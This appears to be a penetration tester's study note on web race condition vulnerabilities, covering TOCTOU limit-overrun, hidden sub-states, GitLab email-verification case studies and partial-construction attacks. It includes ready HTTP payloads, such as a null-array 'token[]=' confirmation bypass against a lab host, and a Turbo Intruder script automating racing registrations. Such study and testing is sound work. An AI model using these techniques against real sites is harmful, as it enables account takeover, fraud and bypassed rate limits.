






>[!question] What are race conditions?
>Race conditions are a common type of vulnerability closely related to [Business logic vulnerabilities](Business%20logic%20vulnerabilities.md). They occur when websites process requests concurrently without adequate safeguards.

# Race condition 101

A race condition attack uses carefully timed requests to cause intentional collisions and exploit this unintended behavior for malicious purposes. The period of time during which a collision is possible is known as the "race window".

To exploit this kind of vulnerability you can use the *Send Group in parallele (single-packet attack)* feature in [Burpsuite](../Tools/Burpsuite.md) if the server supports [HTTP/2](HTTP-2.md), otherwise you can use [Turbo Intruder](../Tools/Burpsuite.md#Turbo%20Intruder) and last-byte sync for any other cases.


# Exploit limit-overrun (time of check, time of use - TOCTOU)

Most websites handle concurrent requests using multiple threads, all reading and writing from a single, shared database.
Application code is rarely crafted with concurrency risks in mind and vulnerabilities arise because of the time-gap between the security check and the protected action.



You'll often find these referred to as '**time of check, time of use**' (**TOCTOU**) flaws.

>[!bug] Examples
>- [Domain-specific flaws](Business%20logic%20vulnerabilities.md#Domain-specific%20flaws) and [Diogenes' Rage](../../Play%20ground/CTFs/Diogenes'%20Rage.md)
>- [File upload race condition](Insecure%20File%20Upload.md#File%20upload%20race%20condition) and [Race condition in URL-based file upload (SSRF)](Insecure%20File%20Upload.md#Race%20condition%20in%20URL-based%20file%20upload%20(SSRF))
>- [Privilege Escalation in Tenet](../../Play%20ground/CTFs/Tenet.md#Privilege%20Escalation)
>- Rating a product multiple times
>- Withdrawing or transferring cash in excess of your account balance
>- Reusing a single CAPTCHA solution
>- [Bypassing an anti-brute-force rate limit](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)

# Exploit servers sub-states

In practice, a single request may initiate an entire multi-step sequence behind the scenes, transitioning the application through multiple hidden states that it enters and then exits again before request processing is complete. We'll refer to these as "sub-states".
## Methodology

### Predict potential collisions

Since everything is multi-step, ideally we'd test every possible combination of endpoints on the entire website. This is impractical - instead, we need to predict where vulnerabilities are likely to occur. 

- To start, **identify objects with security controls that you'd like to bypass**. This will typically include users and sessions, plus some business-specific concepts like orders.
- For each object, we then need to identify all the endpoints that either write to it, or read data from it and then use that data for something important.
- Find a collision asking yourself:
	1. How is the state stored? - Data that's stored in a persistent server-side data structure is ideal for exploitation.
	2. Are we editing or appending? - Operations that edit existing data (such as changing an account's primary email address) have ample collision potential
	3. What's the operation keyed on? - Most endpoints operate on a specific record, which is looked up using a 'key', such as a username, password reset token, or filename. For a successful attack, we need two operations that use the same key.


### Probe for clues

Now that we've selected some high-value endpoints, it's time to probe for clues - hints that hidden sub-states exist. You'll want to send a large number of requests to maximize the chance of visible side-effects, and mitigate server-side jitter.

1. Prepare your blend of requests, targeting endpoints and parameters to trigger all relevant code paths. Where possible, use multiple requests to trigger each code path multiple times, with different input values.

2. Benchmark how the endpoints behave under normal conditions by sending your request-blend with a few seconds between each request.

3. Use the single-packet attack (or last-byte sync if HTTP/2 isn't supported) to issue all the requests at once. You can do this in Turbo Intruder using the single-packet-attack template, or in Repeater using the 'Send group in parallel' option.

4. Analyze the results and look for clues in the form of any deviation from the benchmarked behavior. This could be a change in one or more responses, or a second-order effect like different email contents or a visible change in your session. Clues can be subtle and counterintuitive so if you skip the benchmark step, you'll miss vulnerabilities.

Pretty much anything can be a clue, but pay close attention to the request processing time. If it's shorter than you'd expect, this can indicate that data is being passed to a separate thread, greatly increasing the chances of a vulnerability. If it's longer than you expect, that could indicate resource limits - or that the application is using locking to avoid concurrency issues. 

>[!warning] 
>Note that PHP locks on the sessionid by default, so **you need to use a separate session for every request** in your batch or they'll get processed sequentially.

### Prove the concept

If you spot a clue, the final step is to prove the concept and turn it into a viable attack. The exact steps here will depend on the attack you're attempting, but there are a few general pointers that may be useful:
- Eliminate all unnecessary requests - two should be sufficient for exploiting most vulnerabilities.
- Retry the attack multiple times or automate it.
- Don't forget to escalate!

## Case studies

### Object masking via limit-overrun

Object masking vulnerability in Gitlab. Gitlab lets you invite users to administer projects via their email address. Sent six identical requests:
```http
POST /api/…/invitations HTTP/2
...
{"email":"x@psres.net"}
```
To build a baseline, I sent these requests sequentially with a small delay between each. This resulted in the response `{"status":"success"}` six times, and one invitation email.

Next, I sent the requests simultaneously, using the single-packet attack. This resulted in one response containing `{"status":"success"}`, five responses saying `{"message":"The member's email address has already been taken"}`, and two emails.

After some more digging, a low-severity exploit arrived. The page that lists active invitations only displays one invitation for a given email address. Using the race condition, it was possible to create a dummy low-privilege invitation which gets replaced by an admin-level invitation if it's revoked.

### Multi-endpoint collisions

There's a [documented](https://soroush.secproject.com/downloadable/common-security-issues-in-financially-orientated-web-applications.pdf) race condition variation of this attack that can occur when the payment and order confirmation are performed by a single request.

On Gitlab, emails are important. The ability to 'verify' an email address you don't own would let you gain administrator access to other projects by hijacking pending invitations. The basket attack might not sound relevant to exploiting Gitlab, but I realized that when visualized, Gitlab's email verification flow looks awfully similar:


Perhaps by verifying an email address and changing it at the same time, I could trick Gitlab into incorrectly marking the wrong address as verified?

When I attempted this attack, I noticed that the confirmation operation was executing before the email-change every time. This suggested that the email-change endpoint was doing more processing than the email-confirmation endpoint before it hit the vulnerable sub-state, so sending the two requests in sync was missing the race window. Delaying the confirmation request by 90ms fixed the issue, and achieved a 50/50 spread between the email-change landing first, and the email-confirmation landing first.

A variation of this vulnerability can occur when payment validation and order confirmation are performed during the processing of a single request. The state machine for the order status might look something like this:


Exploiting the long time required to process the first request, it is possible to buy items for free:



0. Sending requests over a single connection, the first request takes 300ms to complete, then all the others are <40ms
1. Issuing in parallel the one to add an expansive item to the cart (having already an item inside - the gift card - ) and the one to pay, we can race with the checkout request (2) and perform a payment while the other item has not yet been added to the cart
2. Checkout request is faster and perform the payment while the expansive item has not yet been processed and added to the cart, allowing us to buy for it free

### Single-endpoint collisions

Race conditions thrive on complexity - they get progressively more likely the more data gets saved, written, read, altered, and handed off between classes, threads, and processes. When an endpoint is sufficiently complex, you don't even need any other endpoints to cause an exploitable collision.

On Gitlab, I noticed that when I tried to change my email address, the response time was 220ms - faster than I'd expect for an operation that sends an email. This hinted that the email might be sent by a different thread - exactly the kind of complexity we need.

I decided to probe Gitlab by changing my account's email address to two different addresses at the same time:

```http
POST /-/profile HTTP/2
Host: gitlab.com

user[email]=test1@psres.net
---
POST /-/profile HTTP/2
Host: gitlab.com

user[email]=test2@psres.net
```

The address the message was sent to didn't always match the address in the body. Crucially, the confirmation token in the misrouted email was often valid:
```http
To: test2@psres.net
Subject: Confirmation instructions

           test1@psres.net

Click the link below to confirm your email address.

        Confirm your email address
```


### Deferred collisions

It's a mistake to think that an immediate collision is guaranteed - websites may do critical data processing in batches periodically behind the scenes. In this scenario, you don't need careful request timing to trigger a race condition - the application will do that part for you. I'll refer to these as deferred collisions.

Deferred race conditions like this one are inherently difficult to identify, as they'll never trigger immediate clues like different responses. Instead, detection is reliant on second-order clues such as changed application behavior or inconsistent emails at a later date.

### Partial construction attacks

One pattern that's just about visible is partial construction vulnerabilities. These occur when an object is created in multiple steps, creating an insecure middle state. For example, during account registration, the application may create the user in the database and set the user's password in two separate SQL statements, leaving a tiny window open where the password is `null`.

Further reference: [The State of State Machines](https://googleprojectzero.blogspot.com/2021/01/the-state-of-state-machines.html), Natalie Silvanovich, Project Zero

Frameworks often let you pass in arrays and other non-string data structures using non-standard syntax. For example, in PHP:
- `param[]=foo` is equivalent to `param = ['foo']`
- `param[]=foo&param[]=bar` is equivalent to `param = ['foo', 'bar']`
- `param[]` is equivalent to `param = []`

Ruby on Rails lets you do something similar by providing a query or `POST` parameter with a key but no value. In other words `param[key]` results in the following server-side object:
- `params = {"param"=>{"key"=>nil}}`

In the example above, this means that during the race window, you could potentially make authenticated API requests as follows:
```http
GET /api/user/info?user=victim&api-key[]= HTTP/2 
Host: vulnerable-website.com
```

Arbitrary user registration example:
```http
POST /register HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=5k9zINghyH0bUZjaKYafa3gRD9Wpc9Av
Content-Length: 99
Content-Type: application/x-www-form-urlencoded

csrf=amuJ1gjWet7aoO94X5bdafM6TK9QXlbk&username=%s&email=victim@ginandjuice.shop&password=test
```

Leaked the confirmation request sent after the user has been created:
```http
POST /confirm?token=1 HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=5k9zINghyH0bUZjaKYafa3gRD9Wpc9Av
Content-Length: 0


HTTP/2 400 Bad Request
"Incorrect token: 1"
```

Tampering with the token parameter we can pass null Array values to the backend:
```http
POST /confirm?token[]= HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=5k9zINghyH0bUZjaKYafa3gRD9Wpc9Av
Content-Length: 0


HTTP/2 400 Bad Request
"Incorrect token: Array"
```

Automated the attack in order to send multiple registration request and the corresponding confirmation ones:
```py
confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a7800c4033a7f6585ac8b5800030008.web-security-academy.net
Cookie: phpsessionid=TNVOQpRpWHn60Ca48h14rNWQ8QZYn2A3
Content-Length: 0

'''

def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for i in range(20):
        u = 'user'+str(i)
        
        # queue a single registration request for user u
        engine.queue(target.req, u, gate=str(i))
        
        # queue 50 confirmation requests for every user u - note that this will probably sent in two separate packets
        for n in range(50):
            engine.queue(confirmationReq, gate=str(i))
        
        # send all the queued requests for this attempt
        engine.openGate(str(i))

def handleResponse(req, interesting):
    table.add(req)
```


### Time-sensitive attacks

Sometimes you may not find race conditions, but the techniques for delivering requests with precise timing can still reveal the presence of other vulnerabilities. One such example is when high-resolution timestamps are used instead of cryptographically secure random strings to generate security tokens.

Consider a password reset token that is only randomized using a timestamp. In this case, it might be possible to trigger two password resets for two different users, which both use the same token. All you need to do is time the requests so that they generate the same timestamp.



>[!example]  OpenCRX Unauthenticated Account Take Over - [CVE-2020-7378](https://github.com/ruthvikvegunta/openCRX-CVE-2020-7378)
>The code in openCRX uses the regular Random class to generate password reset tokens; it is seeded with the results of `System.currentTimeMillis()`. This method returns “the difference, measured in milliseconds, between the current time and midnight, January 1, 1970 UTC”.
### Unsafe data structures

Another angle for further research is exploring the root cause of race conditions - unsafe combinations of data structures and locking strategies:
1. **Locking**: Some data structures aggressively tackle concurrency issues by using locking to only allow a single worker to access them at a time. One example of this is PHP's native session handler - if you send PHP two requests in the same session at the same time, they get processed sequentially! It's extremely important to spot this strategy when you're testing because it can mask exploitable vulnerabilities. For example, if you try to use two requests in the same session to probe for a database-layer race you'll miss it every time, but the vulnerability will be trivially exploitable using two separate sessions.
2. **Batching**: Most session handlers and ORMs batch updates to a given session. When they start to process a request they read in an entire record, and subsequent read/write operations are applied to a local in-memory copy of this record, then when the request processing completes the entire record is serialized back to the database. If two requests operate on the same record simultaneously, one will end up overwriting the database changes from the other. This means they can't be used to defend against attacks affecting other storage layers.
3. **No defense**: Finally, some data structures update shared resources in real time with no batching, locking, or synchronization. You'll see this most often with custom, application-specific data structures, and anything stored in databases without consistent use of transactions.

# External references

- [Race conditions on the web](https://www.josipfranjkovic.com/blog/race-conditions-on-web), JOSIP FRANJKOVIĆ
- [Cracking reCAPTCHA, Turbo Intruder style](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style), James Kettle
- [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine), James Kettle
- [The State of State Machines](https://googleprojectzero.blogspot.com/2021/01/the-state-of-state-machines.html), Natalie Silvanovich, Project Zero